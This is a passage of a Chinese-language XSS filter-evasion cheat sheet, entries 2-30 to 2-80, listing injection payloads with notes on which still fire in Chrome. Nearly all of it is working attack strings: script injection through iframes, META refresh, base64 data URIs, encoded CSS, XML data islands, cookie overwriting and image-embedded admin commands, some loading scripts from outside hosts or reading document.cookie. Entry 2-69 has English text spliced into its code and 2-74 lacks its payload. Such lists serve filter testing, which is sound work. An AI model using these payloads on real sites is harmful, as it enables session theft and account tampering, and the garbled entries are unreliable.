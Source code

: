 ### 2-30 双尖括号<（chrome即可测试）
在正常标签后面使用一个左尖括号< 代替 右尖括号>，就可以用远程脚本攻击正常页面，比如直接用远程攻击脚本内容代替正常页面上的表单，从而直接获取用户提交的信息。没有左尖括号时，在 Firefox 中生效，而在 Netscape 中无效。

`<iframe src=http://xss.rocks/scriptlet.html <`

### 2-31 javascript双重转义
当应用将一些用户输入输出到例如：<SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>的JavaScript中时，你想注入你的JavaScript脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS定位器就用了这种方法:

`\";alert('XSS');//`

另一种方法是，直接使用script闭合标签，并开始自己的script脚本块：

`</script><script>alert('XSS');</script>`

### 2-32 </TITLE>（chrome即可测试）
这是一个简单的闭合<TITLE>标签的 XSS 攻击向量，可以包含恶意的跨站脚本攻击:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`
### 2-33 INPUT标签中设置image（chrome测试无效）
`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

### 2-34 BODY标签中设置image（chrome测试无效）
`<BODY BACKGROUND="javascript:alert('XSS')">`

### 2-35 IMG标签的Dynsrc属性（chrome测试无效）
`<IMG DYNSRC="javascript:alert('XSS')">`

`（注意：该属性只在IE和Netscape中支持，img dynsrc可以用来插入各种多媒体，格式可以是Wav、Avi、AIFF、AU、MP3、Ra、Ram等等）`

### 2-36 IMG标签的lowsrc属性（chrome测试无效）
`<IMG LOWSRC="javascript:alert('XSS')">`

`（注意：该属性用于设置低分辨率下的图片）`

### 3-37 列表样式设置图片（chrome测试无效）
使用JavaScript伪协议在列表List中嵌入图片，这种情况只在IE浏览器中有用

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### 2-38 图片标签中使用VBscript片（chrome测试无效）
`<IMG SRC='vbscript:msgbox("XSS")'>`

`（注意：在 IE 中除了支持 JavaScript 外，还支持 VBScript,但是 Firefox、Chrome 中是不支持 VBScript 的）`

### 2-39 Livescript（chrome测试无效,仅限旧版本的Netscape浏览器）
`<IMG SRC="livescript:[code]">`

`（注意：LiveScript是JavaScript语言的前身）`

### 2-60 META
META标签可以设置刷新，这个刷新功能比较奇怪的是并不会在头部中发送一个referrer，所以它通常用于不需要 referrer 的时候:

比如下面的刷新跳转在chrome中可以生效：

`<meta http-equiv="Refresh" content="3;url=http://www.haishui.NET">`

比如下面的刷新已经被chrome拦截，并不会发生：

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

#### 2-60-1 使用编码数据的META
URL scheme 指令。这个非常有用因为它并不包含任何可见的 SCRIPT 单词或 JavaScript 指令,因为它使用了 base64 编码.请查看 RFC 2397 寻找更多细节。你同样可以使用具有 Base64 编码功能的 XSS 工具来编码 HTML 或 JavaScript:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

`（注意：chrome浏览器已经拦截data形式的刷新）`

#### 2-60-2 含有额外URL参数的META
如果目标站点尝试检查 URL 是否包含"http://"，你可以用以下技术规避它(由 Moritz Naumann 提交):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert ('XSS');">`

`（注意：在chrome中，会发生刷新，刷新到空白页about:blank，javascript指令alert事件并不会发生）`

### 2-61 IFRAME（chrome即可测试）
如果可以使用Iframe，也会有很多 XSS 问题:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

### 2-62 基于事件IFRAME（chrome即可测试）
Iframes 和大多数其他元素可以使用下列事件(由 David Cross 提交):

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

### 2-63 FRAME（chrome即可测试）
Frames 和 iframe 一样有很多 XSS 问题:
`
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

`（注意：FRAMESET标签不能和body标签一起使用）`

### 2-64 TABLE（chrome测试无效）
`<TABLE BACKGROUND="javascript:alert('XSS')">`
#### 2-64-1 TD（chrome测试无效）
和上面一样，TD 也可以通过 BACKGROUND 来包含 JavaScript XSS 攻击向量:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

### 2-65 DIV
#### 2-65-1  DIV背景图像（chrome测试无效）
`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`
#### 2-65-2  使用Unicode XSS代码设置 DIV 背景图像（chrome测试无效）
这进行了一些修改来混淆 URL 参数。原始的漏洞是由 Renaud Lifchitz 在 Hotmail 发现的:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`
#### 2-65-3  含有额外字符的DIV背景图像（chrome测试无效）
Rnaske 进行了一个快速的 XSS 模糊测试来发现 IE 和安全模式下的 Netscape 8.1 中任何 可以在左括号和 JavaScript 指令间加入的额外字符。这都是十进制的但是你也可以使用十 六进制来填充(以下字符可用:1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

`<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">`

`（注意：chrome测试的时候，均提示css属性值不对，chrome测试均无效）`

#### 2-65-4 DIV表达式（chrome测试无效）
一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行:

`<DIV STYLE="width: expression(alert('XSS'));">`

### 2-66 html条件选择注释块（chrome测试无效，尽在IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1 生效）
只能在 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1 生效。一些网站认为在注释 中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系 统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用:

`<!--[if gte IE 4]>
 <SCRIPT>alert('XSS');</SCRIPT>
 <![endif]-->`
 
 ### 2-67 BASE标签（chrome测试并不会弹出alert）
 在 IE 和安全模式下的 Netscape 8.1 有效。你需要使用//来注释下个字符，这样你就不会造 成 JavaScript 错误并且你的 XSS 标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如 "/images/image.jpg"你可以从攻击向量中移除一个斜杠(只有在两个斜杠时注释才会生效):
 
 `<BASE HREF="javascript:alert('XSS');//">`
 
 `（注意：<base> 标签为页面上的所有链接规定默认地址或默认目标。）`
 
 ### 2-68 OBJECT标签（chrome即可测试）
 如果允许使用OBJECT，你可以插入一个xss攻击变量来攻击用户，类似于 APPLET 标签。链接文件实际是含有你 XSS 攻击代码的 HTML 文件:
 
 `<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`
 
 ### 2-69 使用EMBED标签加载含有XSS的FLASH文件
 下面有一个例子,如果你添加了属性 allowScriptAccess="never"以及 allownetworking="internal"则可以 减小风险(感谢 Jonathan Vanasco 提供的信息):
 
 `<EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:
org/xss.swf" AllowScriptAccess="always"></EMBED>`

### 2-70 使用 EMBED SVG 包含攻击向量（chrome即可测试）
该示例只在 FireFox 下有效，但是比上面的攻击向量在 FireFox 下好，因为不需要用户安装 或启用 FLASH。感谢 nEUrOO 提供:

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

### 2-71 在FLASH中使用ActionScript混淆XSS攻击向量(暂时未测试)
`a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);`
### 2-72 CDATA混淆的XML数据岛（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）
这个 XSS 攻击只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效-攻击向量由 Sec Consult 在审计 Yahoo 时发现

`<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

### 2-73 使用XML数据岛生成含内嵌JavaScript的本地XML文件（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）
这和上面是一样的,但是将来源替换为了包含跨站脚本攻击向量的本地XML文件(必须在同一服务器上):

`<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

### 2-74 XML中使用HTML+TIME（只在 IE 和 IE 渲染模式下的 Netscape 8.1 有效）
这是 Grey Magic 攻击 Hotmail 和 Yahoo 的方法。这只在 IE 和 IE 渲染模式下的 Netscape 8.1 有效并且记得需要在 HTML 域的 BODY 标签中间才有效:


### 2-75 使用一些字符绕过".js"过滤

你可以将你的JavaScript文件重命名为图像来进行 XSS攻击:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

### 2-76 SSI(Server Side Includes)
这需要在服务器端允许 SSI 来使用 XSS 攻击向量。似乎不用提示这点，因为如果你可以在 服务器端执行指令那一定是有更严重的问题存在:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

### 2-77 PHP
需要服务器端安装了 PHP 来使用 XSS 攻击向量。同样，如果你可以远程运行任意脚本，那 会有更加严重的问题

`<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>`

### 2-78 嵌入命令的IMAGE
当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行 删除用户，增加用户(如果访问页面的是管理员的话)，将密码发送到任意地方等等。。这 是一个较少使用但是更有价值的 XSS 攻击向量:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### 2-78-1 嵌入命令的IMAGE 第二部分
这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个 302 或 304(其他的也有效)来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向 量。下面是利用.htaccess(Apache)配置文件来实现攻击向量。(感谢 Timo 提供这部分。):

 `Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`
 
 ### 2-79 Cookie篡改
 尽管公认不太实用，但是还是可以发现一些允许使用 META 标签的情况下可用它来覆写cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在 cookie 中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的 cookie 以便将 JavaScript 注入到其页面中(你可以使用这个让用户登出或改变他们的用户状态，甚至可以 让他们以你的账户登录):
 
 `<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`
 
 `(注意：chrome已经拦截该形式)`
 
 ### 2-80 UTF-7编码
 如果存在 XSS的页面没有提供页面编码头部，或者使用了任何设置为使用 UTF-7 编码的浏 览器，就可以使用下列方式进行攻击(感谢 Roman Ivanov 提供)。这在任何不改变编码类 型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire 在 Google 的自定义 404 脚本中发现这个问题:
 
 ` <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

